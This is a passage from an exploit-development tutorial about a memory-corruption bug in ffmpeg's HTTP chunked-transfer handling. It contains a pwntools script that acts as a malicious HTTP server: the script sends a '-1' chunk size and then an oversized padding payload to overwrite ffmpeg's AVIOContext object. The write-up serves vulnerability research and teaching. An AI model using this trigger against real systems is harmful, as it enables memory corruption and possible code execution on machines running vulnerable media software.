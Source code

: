 ### AVIOContext Object Corruption

To corrupt the `AVIOContext` object, we can write a few more bytes.

```python
#!/usr/bin/python

from pwn import *
import time
import socket

# HTTP Headers

headers = """HTTP/1.1 200 OK
Server: PwnServ/v1.0
Date: Sun, 11 Mar 1994 13:37:00 GMT
Content-Type: text/html
Transfer-Encoding: chunked

"""

def main():
    # Start a listener and wait for a connection from ffmpeg
    p = listen(12345)

    p.wait_for_connection()
    log.success("Victim found!")

    # Initialise the ffmpeg instance and prepare it for the bug
    p.send(headers)

    # Trigger the bug with the overly large read
    p.sendline("-1")
    log.info("Bug triggered. Please wait for two seconds...")
    time.sleep(2)   # The sleep allows for a clean transmission boundary

    payload  = "A" * 0x8060

    # Send the entire payload
    log.info("Payload sent!")
    p.send(payload)

    # Close the socket to terminate the read on the ffmpeg end to process the
    # overwrite
    p.close()

if __name__ == '__main__':
    main()
```

To verify that the bug does indeed exist, we can debug the program. To begin, we
break on the `recv` call in the `tcp_read` function.
